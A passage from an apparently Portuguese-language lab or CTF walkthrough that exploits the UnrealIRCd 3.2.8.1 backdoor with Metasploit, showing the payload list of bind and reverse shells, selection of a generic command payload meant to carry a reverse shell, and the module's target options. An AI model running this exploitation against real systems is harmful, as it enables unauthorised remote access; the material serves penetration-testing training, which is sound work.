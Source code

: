 ```bash
```

Agora, vamos setar um payload.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) >
```

Vou tentar usar o **cmd/unix/generic** para incluir um comando de reverse shell.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/generic
payload => cmd/unix/generic
```

Vamos ver o que temos de preencher:

```bash

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:po
                                       rt[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs
                                       .metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)
```